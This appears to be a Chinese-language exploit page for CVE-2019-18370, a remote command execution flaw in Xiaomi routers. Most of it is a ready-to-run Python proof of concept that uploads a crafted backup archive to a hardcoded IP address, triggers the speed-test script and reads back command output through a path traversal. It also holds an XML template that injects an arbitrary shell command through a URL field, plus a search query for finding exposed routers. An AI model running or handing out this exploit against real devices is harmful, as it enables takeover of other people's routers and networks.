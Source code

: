 # 小米 路由器 c_upload 远程命令执行漏洞 CVE-2019-18370

## 漏洞描述

小米路由器存在接口，备份文件是tar.gz格式的，上传后tar zxf解压，所以构造备份文件，可以控制解压目录的文件内容，结合测试上传下载速度功能的sh脚本执行时读取测试url列表文件，并将url部分直接进行命令拼接执行。

## 漏洞影响

<a-checkbox checked>小米 路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="小米路由器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1657436243071-4b71b87e-5cc9-4a15-8395-f50c27bda619-20220710155157295.png)

验证POC

```php
import os
import tarfile
import requests

# proxies = {"http":"http://127.0.0.1:8080"}
proxies = {}

## get stok
stok = input("stok: ")

## make config file
command = input("command: ")
speed_test_filename = "speedtest_urls.xml"
with open("template.xml","rt") as f:
    template = f.read()
data = template.format(command=command)
# print(data)
with open("speedtest_urls.xml",'wt') as f:
    f.write(data)

with tarfile.open("payload.tar.gz", "w:gz") as tar:
    # tar.add("cfg_backup.des")
    # tar.add("cfg_backup.mbu")
    tar.add("speedtest_urls.xml")

## upload config file
print("start uploading config file ...")
r1 = requests.post("http://101.249.46.7:8098/cgi-bin/luci/;stok={}/api/misystem/c_upload".format(stok), files={"image":open("payload.tar.gz",'rb')}, proxies=proxies)
# print(r1.text)

## exec download speed test, exec command
print("start exec command...")
r2 = requests.get("http://101.249.46.7:8098/cgi-bin/luci/;stok={}/api/xqnetdetect/netspeed".format(stok), proxies=proxies)
# print(r2.text)

## read result file
r3 = requests.get("http://101.249.46.7:8098/api-third-party/download/extdisks../tmp/1.txt", proxies=proxies)
if r3.status_code == 200:
    print("success, vul")
    print(r3.text)
```

template.xml 文件

```php
<?xml version="1.0"?>
<root>
    <class type="1">
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
    </class>
    <class type="2">
        <item url="http://192.168.31.1 -q -O /dev/null;{command}>/tmp/1.txt;"/>
    </class>
    <class type="3">
        <item uploadurl="http://www.taobao.com/"/>
        <item uploadurl="http://www.so.com/"/>
        <item uploadurl="http://www.qq.com/"/>
        <item uploadurl="http://www.sohu.com/"/>
        <item uploadurl="http://www.tudou.com/"/>
        <item uploadurl="http://www.360doc.com/"/>
        <item uploadurl="http://www.kankan.com/"/>
        <item uploadurl="http://www.speedtest.cn/"/>
    </class>
</root>
```

接口为后台权限接口，需要通过任意文件读取漏洞获取 stok

![img](../../../.vuepress/public/img/1657439236976-27a33bc3-42ff-412f-9e66-4c57198d42fe.png)